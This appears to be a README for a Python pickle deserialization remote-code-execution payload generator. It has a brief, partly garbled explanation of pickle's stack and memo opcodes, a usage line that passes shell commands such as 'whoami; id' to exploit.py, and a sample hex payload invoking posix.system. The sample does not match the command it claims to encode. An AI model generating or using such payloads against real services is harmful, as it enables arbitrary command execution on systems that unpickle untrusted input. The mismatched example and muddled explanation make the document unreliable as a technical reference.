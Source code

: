 # Pickle RCE payload
[![Python3.x](https://img.shields.io/badge/python-3.x-FADA5E.svg?logo=python)](https://www.python.org/)

### Python's pickling deserialization Remote Code Execution payload generator.**

**Pickle** is a python package used to 'serialize' an object to string format and store them to Pickle is a simple stack language, which means pickle has a variable stack.
Every time it finished 'deserializing' an object it stores it on the stack.
Every time it reaches a '.' while 'deserializing', it pop a variable from the stack. Besides, pickle has a temperary memo, like a clipboard.
'p0', 'p1' means put the top obj on the stack to memo and refer it as '0' or '1'
'g0', 'g1' act as get obj '0' or '1'

### Usage:
```sh
$ python3 exploit.py [command]
```

**Example:**

```sh
$ python3 exploit.py 'whoami; id'
b'8004951a000000000000008c05706f736978948c0673797374656d9493944b0a859452942e'
```